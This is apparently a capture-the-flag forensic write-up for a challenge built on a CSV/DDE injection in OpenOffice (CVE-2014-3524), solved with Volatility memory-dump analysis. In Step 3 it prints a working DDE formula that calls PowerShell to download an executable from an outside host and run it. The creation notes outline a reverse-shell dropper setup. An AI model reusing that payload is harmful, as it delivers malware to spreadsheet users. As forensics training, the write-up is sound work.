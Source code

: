 ```yaml
---
title: Financial Fallout
time: 2024-09-17
categories: [forensic]
tags: [memory forensic, medium, malware, CVE-2014-3524]
image: /assets/posts/chall_category/forensic.jpg
---
```


## Description:

A finance department employee opened a spreadsheet using OpenOffice to view financial data. Unknown to the employee, this spreadsheet contained a malicious payload that exploited the machine with CSV injection vulnerability. The exploit led to the download and execution of malware, establishing a reverse shell connection to an external server.

The company's IT security team detected this event and isolated the machine. They've provided you with a memory dump for analysis. Your task is to analyze the memory dump and find out the location of the hidden malware and modification of files perform by the malware. 

This challenge demonstrates the vulnerability of CSV injection with DDE payloads on Apache OpenOffice before 4.1.1 **(CVE-2014-3524)**. 

- Category: Forensic
- **Flag format:** CTF{flag} (There are two parts of the flag)

<script>
function redirectToFile() {
    window.location.href = 'https://drive.google.com/file/d/1M7Pn7_5X_OI9SB6DQFLAYUTvoLN2A_a_/view?usp=sharing';
}
</script>

<!-- Button to trigger the redirect -->
<button onclick="redirectToFile()">Download File</button>

## Solutions:

#### Step 1: Identify the spreadsheet with filescan plugin

```
$ vol -f memdump.raw windows.filescan | grep ods
```

ods in the command specify the file extension of .ods which is open-source spreadsheet file used by OpenOffice. 

Output:
```
0x5c037f20 100.0\Program Files (x86)\OpenOffice 4\program\python-core-2.7.5\include\python2.7\bytes_methods.h   216
0x5c088af0      \Program Files (x86)\OpenOffice 4\program\python-core-2.7.5\include\python2.7\modsupport.h      216
0x6d54e8a0      \ProgramData\Microsoft\Windows\Templates\soffice.ods    216
0x100cdb780     \Users\FinanceDept\Desktop\Sales-Report.ods     216
```

We can pay more attention on `Sales-Report.ods` file with the memory address of `0x100cdb780`. Next step, we can dump it and analyze futher


#### Step 2: Dump Sales-Report.ods at 0x100cdb780

```
$  vol -f memdump.raw windows.dumpfiles --physaddr 0x100cdb780
```

Output:
```
DataSectionObject       0x100cdb780     Sales-Report.ods        file.0x100cdb780.0xe0002d2050f0.DataSectionObject.Sales-Report.ods.dat
```

#### Step 3: Unzip the ods file and parse the DDE payload

```
$ mv file.0x100cdb780.0xe0002d2050f0.DataSectionObject.Sales-Report.ods.dat Sales-Report.ods && unzip Sales-Report.ods
```


```
$ xmllint --format content.xml | grep DDE
```
 
Output:
```
<table:table-cell table:formula="of:=DDE(&quot;powershell&quot;;&quot;Invoke-WebRequest -Uri 'http://192.168.1.114/Q1RGe0NTVl8xbmozdDEwbl8y.TMP.exe' -OutFile 'C:\Users\FinanceDept\AppData\Local\Temp\Q1RGe0NTVl8xbmozdDEwbl8y.TMP.exe'; Start-Process 'C:\Users\FinanceDept\AppData\Local\Temp\Q1RGe0NTVl8xbmozdDEwbl8y.TMP.exe'&quot;;&quot;!A0&quot;)"
```

Here is a breakdown, the cell contain a DDE payload with a CSV injection format. It executes powershell and runs command of `Invoke-WebRequest -Uri 'http://192.168.1.114/Q1RGe0NTVl8xbmozdDEwbl8y.TMP.exe' -OutFile 'C:\Users\FinanceDept\AppData\Local\Temp\Q1RGe0NTVl8xbmozdDEwbl8y.TMP.exe';` and `Start-Process 'C:\Users\FinanceDept\AppData\Local\Temp\Q1RGe0NTVl8xbmozdDEwbl8y.TMP.exe'`. So, it downloads and exe files which attempts to hide as a TMP file and stores at Temp folder and later on execute the exe file.

With the name of the exe `Q1RGe0NTVl8xbmozdDEwbl8y` is a base64 encoded string.

#### Step 4: Decode the encoded file name of malware
```
$ echo "Q1RGe0NTVl8xbmozdDEwbl8y" | base64 -d
```

Output:
```
CTF{CSV_1nj3t10n_2
```

#### Step 5: Find out the location of the modified file by the malware

This part of the challenge is messed up because my intention is to have evtx recorded file modication changes but I forget to setup the audit policy in secpol.msc. Anyhow, the file is located at Desktop with the name of `important text.txt`. Dump the files would get the flag and it encoded in base64.

```
$ echo "X1IzdjNyc2VfU2gzbGx9" | base64 -d
```

Output:
```
_R3v3rse_Sh3ll}
```

**Flag:** `CTF{CSV_1nj3t10n_2_R3v3rse_Sh3ll}`

## Challenge Creation: 

I have planned out in detail, will attach an md file for it. (Attachments: [READMe.md](https://github.com/0x251e/challenges/blob/main/union-depository/forensic/financial-fallout-artifacts/READMe.md))

#### TL;DR:
- Windows 8.1 as victim machine
- OpenOffice 4.0.1 as vulnerable software
- Kali Linux as attacker with listener to reverse shell 
- Use revshells.com as the payload on port 4444
- Use Install-Module ps2exe to trojanized script
- Use DDE to invoke powershell to download dropper and execute


